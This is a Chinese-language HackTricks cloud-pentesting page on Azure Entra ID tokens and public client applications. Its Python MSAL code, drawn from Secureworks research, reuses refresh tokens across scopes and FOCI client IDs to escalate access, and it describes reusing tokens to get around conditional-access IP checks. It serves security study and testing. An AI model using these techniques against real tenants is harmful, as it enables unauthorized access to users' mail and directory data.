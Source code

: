 # Az - Tokens & Public Applications

{{#include ../../../banners/hacktricks-training.md}}

## 基本信息

Entra ID 是微软基于云的身份和访问管理 (IAM) 平台，作为 Microsoft 365 和 Azure Resource Manager 等服务的基础认证和授权系统。Azure AD 实现了 OAuth 2.0 授权框架和 OpenID Connect (OIDC) 认证协议，以管理对资源的访问。

### OAuth

**OAuth 2.0 的关键参与者：**

1. **资源服务器 (RS)：** 保护资源所有者拥有的资源。
2. **资源所有者 (RO)：** 通常是拥有受保护资源的最终用户。
3. **客户端应用程序 (CA)：** 代表资源所有者请求访问资源的应用程序。
4. **授权服务器 (AS)：** 在对客户端应用程序进行身份验证和授权后，向其发放访问令牌。

**范围和同意：**

- **范围：** 在资源服务器上定义的细粒度权限，指定访问级别。
- **同意：** 资源所有者授予客户端应用程序访问特定范围资源的权限的过程。

**Microsoft 365 集成：**

- Microsoft 365 利用 Azure AD 进行 IAM，并由多个“第一方”OAuth 应用程序组成。
- 这些应用程序深度集成，通常具有相互依赖的服务关系。
- 为了简化用户体验并保持功能，微软对这些第一方应用程序授予“隐含同意”或“预先同意”。
- **隐含同意：** 某些应用程序在没有明确用户或管理员批准的情况下**自动获得对特定范围的访问权限**。
- 这些预先同意的范围通常对用户和管理员都是隐藏的，使其在标准管理界面中不太可见。

**客户端应用程序类型：**

1. **机密客户端：**
- 拥有自己的凭据（例如，密码或证书）。
- 可以**安全地向授权服务器进行身份验证**。
2. **公共客户端：**
- 没有唯一的凭据。
- 不能安全地向授权服务器进行身份验证。
- **安全隐患：** 攻击者可以在请求令牌时冒充公共客户端应用程序，因为授权服务器没有机制来验证应用程序的合法性。

## 认证令牌

在 OIDC 中使用**三种类型的令牌**：

- [**访问令牌**](https://learn.microsoft.com/en-us/azure/active-directory/develop/access-tokens)**:** 客户端将此令牌呈现给资源服务器以**访问资源**。它只能用于特定的用户、客户端和资源组合，并且**在到期之前无法撤销** - 默认情况下为 1 小时。
- **ID 令牌**：客户端从**授权服务器**接收此**令牌**。它包含有关用户的基本信息。它**绑定到特定的用户和客户端组合**。
- **刷新令牌**：与访问令牌一起提供给客户端。用于**获取新的访问和 ID 令牌**。它绑定到特定的用户和客户端组合，并且可以被撤销。默认过期时间为**90 天**（对于不活动的刷新令牌）和**活动令牌没有过期**（可以从刷新令牌获取新的刷新令牌）。
- 刷新令牌应与**`aud`**、某些**范围**和**租户**相关联，并且只能为该 aud、范围（且不更多）和租户生成访问令牌。然而，这在**FOCI 应用程序令牌**中并非如此。
- 刷新令牌是加密的，只有微软可以解密它。
- 获取新的刷新令牌不会撤销先前的刷新令牌。

> [!WARNING]
> **条件访问**的信息存储在**JWT**中。因此，如果您从允许的 IP 地址请求**令牌**，该**IP**将被**存储**在令牌中，然后您可以从**不允许的 IP 访问资源**使用该令牌。

### 访问令牌 "aud"

“aud”字段中指示的字段是用于执行登录的**资源服务器**（应用程序）。

命令 `az account get-access-token --resource-type [...]` 支持以下类型，每种类型将在结果访问令牌中添加特定的“aud”：

> [!CAUTION]
> 请注意，以下仅是 `az account get-access-token` 支持的 API，但还有更多。

<details>

<summary>aud 示例</summary>

- **aad-graph (Azure Active Directory Graph API)**：用于访问遗留的 Azure AD Graph API（已弃用），允许应用程序读取和写入 Azure Active Directory (Azure AD) 中的目录数据。
- `https://graph.windows.net/`

* **arm (Azure Resource Manager)**：用于通过 Azure Resource Manager API 管理 Azure 资源。这包括创建、更新和删除虚拟机、存储帐户等资源的操作。
- `https://management.core.windows.net/ or https://management.azure.com/`

- **batch (Azure Batch Services)**：用于访问 Azure Batch，这是一项服务，可有效地在云中启用大规模并行和高性能计算应用程序。
- `https://batch.core.windows.net/`

* **data-lake (Azure Data Lake Storage)**：用于与 Azure Data Lake Storage Gen1 交互，这是一项可扩展的数据存储和分析服务。
- `https://datalake.azure.net/`

- **media (Azure Media Services)**：用于访问 Azure Media Services，提供基于云的视频和音频内容处理和交付服务。
- `https://rest.media.azure.net`

* **ms-graph (Microsoft Graph API)**：用于访问 Microsoft Graph API，这是 Microsoft 365 服务数据的统一端点。它允许您访问 Azure AD、Office 365、企业移动性和安全服务等服务的数据和见解。
- `https://graph.microsoft.com`

- **oss-rdbms (Azure Open Source Relational Databases)**：用于访问 Azure 数据库服务，支持开源关系数据库引擎，如 MySQL、PostgreSQL 和 MariaDB。
- `https://ossrdbms-aad.database.windows.net`

</details>

### 访问令牌范围 "scp"

访问令牌的范围存储在访问令牌 JWT 内的 scp 键中。这些范围定义了访问令牌可以访问的内容。

如果 JWT 被允许联系特定 API，但**没有范围**来执行请求的操作，则**无法使用该 JWT 执行该操作**。

### 获取刷新和访问令牌示例
```python
# Code example from https://github.com/secureworks/family-of-client-ids-research
import msal
import requests
import jwt
from pprint import pprint
from typing import Any, Dict, List


# LOGIN VIA CODE FLOW AUTHENTICATION
azure_cli_client = msal.PublicClientApplication(
"04b07795-8ddb-461a-bbee-02f9e1bf7b46" # ID for Azure CLI client
)
device_flow = azure_cli_client.initiate_device_flow(
scopes=["https://graph.microsoft.com/.default"]
)
print(device_flow["message"])

# Perform device code flow authentication

azure_cli_bearer_tokens_for_graph_api = azure_cli_client.acquire_token_by_device_flow(
device_flow
)
pprint(azure_cli_bearer_tokens_for_graph_api)


# DECODE JWT
def decode_jwt(base64_blob: str) -> Dict[str, Any]:
"""Decodes base64 encoded JWT blob"""
return jwt.decode(
base64_blob, options={"verify_signature": False, "verify_aud": False}
)
decoded_access_token = decode_jwt(
azure_cli_bearer_tokens_for_graph_api.get("access_token")
)
pprint(decoded_access_token)


# GET NEW ACCESS TOKEN AND REFRESH TOKEN
new_azure_cli_bearer_tokens_for_graph_api = (
# Same client as original authorization
azure_cli_client.acquire_token_by_refresh_token(
azure_cli_bearer_tokens_for_graph_api.get("refresh_token"),
# Same scopes as original authorization
scopes=["https://graph.microsoft.com/.default"],
)
)
pprint(new_azure_cli_bearer_tokens_for_graph_api)
```
## FOCI Tokens Privilege Escalation

之前提到过，刷新令牌应该与生成时的**范围**、**应用程序**和**租户**绑定。如果这些边界中的任何一个被打破，就有可能提升权限，因为将能够生成对用户有访问权限的其他资源和租户的访问令牌，并且具有比最初预期更多的范围。

此外，**所有刷新令牌都可以这样做**在 [Microsoft identity platform](https://learn.microsoft.com/en-us/entra/identity-platform/)（Microsoft Entra 账户、Microsoft 个人账户以及 Facebook 和 Google 等社交账户）中，因为正如 [**文档**](https://learn.microsoft.com/en-us/entra/identity-platform/refresh-tokens) 所提到的：“刷新令牌绑定于用户和客户端的组合，但**不与资源或租户绑定**。客户端可以使用刷新令牌获取**在其有权限的任何资源和租户组合**中的访问令牌。刷新令牌是加密的，只有 Microsoft identity platform 可以读取它们。”

此外，请注意 FOCI 应用程序是公共应用程序，因此**不需要秘密**来进行服务器身份验证。

然后在 [**原始研究**](https://github.com/secureworks/family-of-client-ids-research/tree/main) 中报告的已知 FOCI 客户端可以在 [**这里找到**](https://github.com/secureworks/family-of-client-ids-research/blob/main/known-foci-clients.csv)。

### Get different scope

继续之前的示例代码，在这段代码中请求一个不同范围的新令牌：
```python
# Code from https://github.com/secureworks/family-of-client-ids-research
azure_cli_bearer_tokens_for_outlook_api = (
# Same client as original authorization
azure_cli_client.acquire_token_by_refresh_token(
new_azure_cli_bearer_tokens_for_graph_api.get(
"refresh_token"
),
# But different scopes than original authorization
scopes=[
"https://outlook.office.com/.default"
],
)
)
pprint(azure_cli_bearer_tokens_for_outlook_api)
```
### 获取不同的客户端和范围
```python
# Code from https://github.com/secureworks/family-of-client-ids-research
microsoft_office_client = msal.PublicClientApplication("d3590ed6-52b3-4102-aeff-aad2292ab01c")
microsoft_office_bearer_tokens_for_graph_api = (
# This is a different client application than we used in the previous examples
microsoft_office_client.acquire_token_by_refresh_token(
# But we can use the refresh token issued to our original client application
azure_cli_bearer_tokens_for_outlook_api.get("refresh_token"),
# And request different scopes too
scopes=["https://graph.microsoft.com/.default"],
)
)
# How is this possible?
pprint(microsoft_office_bearer_tokens_for_graph_api)
```
## 参考

- [https://github.com/secureworks/family-of-client-ids-research](https://github.com/secureworks/family-of-client-ids-research)

{{#include ../../../banners/hacktricks-training.md}}

